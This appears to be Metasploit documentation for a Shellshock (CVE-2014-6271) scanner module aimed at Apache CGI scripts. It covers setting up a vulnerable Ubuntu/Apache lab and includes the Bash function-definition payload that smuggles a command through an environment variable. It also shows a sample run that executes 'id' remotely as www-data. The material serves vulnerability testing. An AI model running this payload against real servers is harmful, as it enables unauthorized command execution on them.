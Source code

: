 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the HTTP_USER_AGENT environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console
  3. run
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo) <br>
5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
chmod +x /usr/lib/cgi-bin/test.sh
```

### To check if a host is vulnerable to the attack
1. run (on the host)
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```

## Verification Steps
1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env`
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

## Options
**CMD**

This is the command that will be run by the scanner. The default setting is `/usr/bin/id`.

**CVE** 
This is the CVE that will be used to exploit the vulnerability. 
The default setting is `CVE-2014-6271` but valid options are CVE-2014-6271 or CVE-2014-6278.

**HEADER**
This is the user agent string that is sent when the module is run. The default setting is `User-Agent`.

**METHOD**
This is HTTP method used by the module.  The default setting is `GET`.

## Scenarios
### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

